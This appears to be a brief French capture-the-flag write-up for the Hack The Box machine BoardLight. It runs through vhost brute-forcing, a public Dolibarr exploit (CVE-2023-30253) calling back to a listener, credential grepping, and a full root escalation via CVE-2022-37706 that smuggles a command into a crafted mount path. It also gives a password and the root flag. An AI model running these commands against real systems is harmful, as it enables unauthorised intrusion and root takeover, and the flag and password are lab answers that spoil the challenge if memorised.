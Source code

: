 # HTB Writeup: BoardLight

[PWNED:Date](https://www.hackthebox.com/achievement/machine/1966580/603)

Brute force les VHOST 

```bash
gobuster vhost -u http://crm.board.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
```

[`CVE-2023-30253`](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main)

```bash
python3 exploit.py http://crm.board.htb login password 10.10.14.138 1234
```

Rechercher une chaîne de caractère dans un répertoire 

```bash
grep -arin 'DB_USER\|DB_PASSWORD' |awk -F':' '{print $1}' | sort | uniq -c
```

Mot de passe de Larissa trouvé : FLAG serverfun2$2023!!

## Root Flag

Trouver les fichier avec une  SUID Permission 

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

 [`CVE-2022-37706`](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) 

```bash
mkdir /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"
echo "/bin/bash" > /tmp/exploit
chmod a+x /tmp/exploit
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

```

FLAG 

```bash
root@boardlight:/home/larissa# cat /root/root.txt
8d823a6c299dff3c34c362d20335f028
```